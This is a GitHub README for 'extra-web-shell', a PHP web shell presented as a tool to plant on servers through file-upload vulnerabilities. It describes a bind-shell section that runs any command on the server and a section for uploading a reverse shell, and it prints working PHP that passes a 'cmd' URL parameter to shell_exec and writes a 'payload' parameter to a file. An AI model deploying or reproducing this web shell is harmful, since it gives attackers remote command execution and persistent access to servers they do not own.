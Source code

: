 # extra-web-shell

## What is this?
##### this is a simple web shell, contains both, bind and option of upload a reverse shell
![extra-shell](https://raw.githubusercontent.com/hamza07-w/extra-web-shell/main/backg.png)
## How can this help me?
##### well, sometimes when you find a file upload vulnerability, you will find that you can't bypass the extension eaisy, for example you have to try many extension methods such as, php, php5, jpg.php ... this extra web shell, will help you to upload any kind of files start from php, txt ...etc

## Bind shell section
#### this part of the tool, you can execute any command on the server without any problem, and the output will be visible in the output border

## Create file or reverse shell section
##### here you can upload any file just copy the content of this file and the output will give you the link of it to acssess
##### you can edit the name and the extension in the source code from $path variable which equal "reshell.php" by default to what you like
```php
<?php
	if(isset($_GET['cmd']))
	{
	    $output = shell_exec($_GET['cmd']);
	}
	elseif (isset($_GET['payload'])) {
		file_put_contents("reshell.php", $_GET['payload']);
		$path = "reshell.php";
	}	
?>

```

## LICENCE
[MIT](https://github.com/hamza07-w/extra-web-shell/blob/main/LICENSE)

